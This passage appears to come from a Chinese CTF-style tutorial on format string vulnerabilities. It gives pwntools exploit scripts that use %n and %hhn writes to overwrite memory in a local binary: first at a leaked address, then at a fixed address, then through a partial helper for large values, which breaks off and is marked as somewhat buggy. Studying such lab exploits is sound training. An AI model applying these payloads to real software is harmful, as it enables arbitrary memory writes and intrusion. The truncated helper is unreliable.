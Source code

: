 ```c
  return 0;
}
```

#### exp：

```python
# -*- encoding: utf-8 -*-
from pwn import *
def forc():
    sh = process('./main')
    c_addr = int(sh.recvuntil('\n', drop=True), 16)
    print (hex(c_addr))
    payload = p32(c_addr) + b'%012d' + b'%6$n'
    # %n,不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。
    # %012的意思是如果输出的整型数不足12位，左侧用0补齐
    print (payload)
    #gdb.attach(sh)
    sh.sendline(payload)
    print (sh.recv())
    sh.interactive()

forc()
```

**b、覆盖任意地址内存**

**覆盖小数字**

```python
from pwn import*
def fora():
    sh = process('./main')
    a_addr = 0x0804C024
    payload = b'aa%8$naa' + p32(a_addr)
    sh.sendline(payload)
    print (sh.recv())
    sh.interactive()
    
fora()
```

**覆盖大数字**（有点问题）

```python
# -*- encoding: utf-8 -*-
from pwn import*

def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    #确定覆盖的是第几个参数
    return fmtstr


def fmt_str(offset, size, addr, target):
#offset 表示要覆盖的地址最初的偏移
# size 表示机器字长
# addr 表示将要覆盖的地址。
# target 表示我们要覆盖为的目的变量值
```
